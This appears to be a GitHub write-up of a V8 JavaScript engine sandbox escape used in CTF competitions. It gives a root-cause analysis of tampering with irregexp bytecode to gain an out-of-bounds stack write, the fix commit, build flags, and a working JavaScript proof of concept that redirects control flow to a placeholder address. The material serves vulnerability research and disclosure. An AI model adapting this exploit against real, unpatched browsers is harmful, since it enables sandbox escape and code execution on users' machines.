 # V8 Sandbox escape

This is the technique I used in V8CTF M122, M123 and plaidctf maglev.

## RCA

Issue: 330404819

When attacker have the ability of oob read and write, they can modify `data` in regexp, in which stores bytecode. In `IrregexpInterpreter::Result RawMatch` function, it just read bytecode and execute. 

Also, registers located on stack and has no check of boundarys (Only DCHECK). By modifying bytecode, it's possible to create an rop chain via oob write.

This was fixed in commit `b9349d97fd44aec615307c9d00697152da95a66a`.



## Reproduce

The `exp.js` works with debug build of commit `1fd3f98c07afc527a68ee15a9e0d6869defec2a9`.

build flags:

```
is_debug = true
v8_static_library = true
target_cpu = "x64"
v8_enable_sandbox = true
v8_enable_memory_corruption_api=true
```

Use `--sandbox-fuzzing` to enable `Sandbox` at runtime.

The exploit uses `push` and `pop` bytecodes for copying registers, `set` for adding constants on stack and `advance` for calculations.

Poc here hijacks control flow to `0x4141414141414141`, which can be verified via gdb since `--sandbox-fuzzing` will ignore memory violation issues. This should function effectively on other builds, as the offset has been consistently observed to remain unchanged.

```js
// Flags:  --sandbox-fuzzing
let s = "aaaaa";

var sbxMemView = new Sandbox.MemoryView(0, 0xfffffff8);
var addrOf = (o) => Sandbox.getAddressOf(o);

var dv = new DataView(sbxMemView);

var readHeap4 = (offset) => dv.getUint32(offset, true);
var readHeap8 = (offset) => dv.getBigUint64(offset, true);

var writeHeap1 = (offset, value) => dv.setUint8(offset, value, true);
var writeHeap4 = (offset, value) => dv.setUint32(offset, value, true);
var writeHeap8 = (offset, value) => dv.setBigUint64(offset, value, true);

var regex = /[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*/g;
let addr_regex = addrOf(regex);
let data_addr = readHeap4(addr_regex + 0xc);

regex.exec(s);
let bytecode = readHeap4(data_addr + 0x1b);
writeHeap4(data_addr + 0x2f, 2);

let arr = [];

function set_reg(idx, value) {
    arr.push((idx << 8) & 0xffffff00 | 0x08);
    arr.push(value);
}

function success() {
    arr.push(0x0000000e);
}

let idx = 0x52;
set_reg(idx++,0x41414141);
set_reg(idx++,0x41414141);
success();

for (var i = 0; i < arr.length; i++) {
    writeHeap4(bytecode + 0x7 + 4 * i, arr[i]);
}

regex.exec(s);
```

